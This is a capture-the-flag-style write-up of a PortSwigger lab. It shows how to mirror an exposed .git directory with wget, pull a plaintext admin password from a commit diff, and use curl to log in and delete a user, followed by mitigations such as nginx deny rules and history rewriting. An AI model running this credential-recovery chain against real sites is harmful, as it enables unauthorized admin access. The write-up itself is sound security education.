




# Lab 05: Information Disclosure in Version Control History

> **Topic**: Information Disclosure
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
Information Disclosure — Plaintext Credentials Recovered from Exposed `.git` Repository History

## Vulnerability Summary
The application's `.git` directory is publicly accessible with directory listing enabled. Downloading the repository and inspecting its commit history reveals a commit that removed a hardcoded admin password from a config file. The password is recoverable from the diff of that commit. Using the recovered password to log in as administrator grants access to the admin panel, from which the target user is deleted.

## Attack Methodology

### Step 1: Discover the Exposed `.git` Directory
Navigated to `/.git` on the target — directory listing was enabled, exposing the full git object store.

```
GET /.git HTTP/2
Host: 0a6900cc033895b18293f2dc00cc0065.web-security-academy.net
```

Response: `Index of /.git` — branches, config, HEAD, objects, refs all accessible.



### Step 2: Download the Entire Repository
Used `wget` to recursively mirror the `.git` directory:

```bash
wget -q -r https://0a6900cc033895b18293f2dc00cc0065.web-security-academy.net/.git/
cd 0a6900cc033895b18293f2dc00cc0065.web-security-academy.net/
```

### Step 3: Inspect Git History
Ran `git log` to list commits:

```bash
git log
```

```
commit c692435b75be1b021eafe95b52394a306632832a (HEAD → master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit d5b21d706330f77c0b3e07f7d0b416ae43fc5c39
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

The commit message "Remove admin password from config" is a direct signal — the password existed in a previous state.



### Step 4: Extract the Password from the Diff
Inspected the commit to see exactly what was changed:

```bash
git show c692435b75be1b021eafe95b52394a306632832a
```

```diff
diff --git a/admin.conf b/admin.conf
index 9a3db5e..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=p1me83vrh5jca4p0oh5y
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

The removed line contains the plaintext admin password: `p1me83vrh5jca4p0oh5y`



### Step 5: Log In as Admin and Delete carlos
Logged into the admin panel at `/admin` using the recovered credentials (`administrator:p1me83vrh5jca4p0oh5y`), then navigated to `/admin/delete?username=carlos`. Lab solved.



## Technical Root Cause

### Vulnerable Pattern
```bash
# Developer hardcodes secret in config, commits it, then "removes" it in a later commit
# The secret is permanently preserved in git history

git log --all --oneline
# abc1234 Remove admin password from config   ← secret still in diff
# def5678 Add skeleton admin panel            ← secret introduced here

git show abc1234
# -ADMIN_PASSWORD=p1me83vrh5jca4p0oh5y        ← fully recoverable
```

Two compounding flaws:
1. **`.git` directory served publicly**: The web server has no rule blocking `/.git`. Any client can download the full object store and reconstruct the repository.
2. **Secret committed to history**: Deleting a secret from a file and committing the deletion does not remove it from git history. Every prior commit that contained the secret remains fully readable via `git show`, `git diff`, or `git log -p`.

### Secure Pattern
```bash
# Never commit secrets. Use environment variables from the start.
ADMIN_PASSWORD=env('ADMIN_PASSWORD')

# If a secret was accidentally committed, history must be rewritten:
git filter-branch --force --index-filter \
  "git rm --cached --ignore-unmatch admin.conf" \
  --prune-empty --tag-name-filter cat -- --all

# Then rotate the secret immediately — treat it as compromised.
```

## Impact
- **Admin Credential Exposure**: Full plaintext admin password recoverable by anyone who can access `/.git`
- **Complete Application Compromise**: Admin panel access allows arbitrary user management and potentially further privilege escalation
- **Persistent Exposure**: Even after the secret is "removed" from the codebase, it remains in git history indefinitely unless history is actively rewritten

**Severity: High**

## Proof of Concept

```bash
# Download the exposed git repo
wget -q -r https://0a6900cc033895b18293f2dc00cc0065.web-security-academy.net/.git/
cd 0a6900cc033895b18293f2dc00cc0065.web-security-academy.net/

# Find the incriminating commit
git log --oneline
# c692435 Remove admin password from config

# Extract the password
git show c692435b75be1b021eafe95b52394a306632832a
# -ADMIN_PASSWORD=p1me83vrh5jca4p0oh5y

# Use it
curl -s -c cookies.txt -b cookies.txt \
  "https://0a6900cc033895b18293f2dc00cc0065.web-security-academy.net/login" \
  --data "username=administrator&password=p1me83vrh5jca4p0oh5y"

curl -s -b cookies.txt \
  "https://0a6900cc033895b18293f2dc00cc0065.web-security-academy.net/admin/delete?username=carlos"
```

## Key Takeaways
1. **Git history is permanent**: Removing a secret in a new commit does not erase it. The full diff of every commit is stored in the object database and is trivially recoverable with `git show`. Secrets must never be committed in the first place.
2. **`.git` must never be web-accessible**: The `.git` directory contains the entire project history, config, and potentially credentials. Block it at the web server level unconditionally.
3. **"Remove X from config" commits are a red flag**: In bug bounty and pentesting, commit messages like "remove password", "delete key", "clean up secrets" are high-value targets — they point directly to where a secret used to be.
4. **Rotate immediately on exposure**: Any secret found in git history must be treated as fully compromised and rotated before any remediation work begins.

## Mitigation

### 1. Block `/.git` at the Web Server
```nginx
location ~ /\.git {
    deny all;
    return 404;
}
```
```apache
RedirectMatch 404 /\.git
```

### 2. Use `.gitignore` to Prevent Committing Config Files with Secrets
```gitignore
admin.conf
*.env
.env
config/secrets.*
```

### 3. Rewrite History to Purge an Accidentally Committed Secret
```bash
# Using git-filter-repo (preferred over filter-branch)
pip install git-filter-repo
git filter-repo --path admin.conf --invert-paths

# Force-push all branches and tags
git push origin --force --all
git push origin --force --tags
```

Then immediately rotate the exposed secret — history rewrite does not help if the secret has already been read.

### 4. Use a Secrets Scanner in CI
```yaml
# Example: pre-commit hook with detect-secrets
repos:
  - repo: https://github.com/Yelp/detect-secrets
    rev: v1.4.0
    hooks:
      - id: detect-secrets
```

## References
- [PortSwigger — Information Disclosure in Version Control History](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)
- [PortSwigger — Information Disclosure Vulnerabilities](https://portswigger.net/web-security/information-disclosure)
- [OWASP — Exposed Git Repository](https://owasp.org/www-community/attacks/Exposed_Git_Repository)
- [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- [CWE-538: Insertion of Sensitive Information into Externally-Accessible File or Directory](https://cwe.mitre.org/data/definitions/538.html)
- [git-filter-repo](https://github.com/newren/git-filter-repo)

## Tools Used
- Burp Suite Professional (Proxy, HTTP History)
- wget
- git
- Chromium

---

*Lab completed on: 2026-05-09*  
*Writeup by vibhxr*
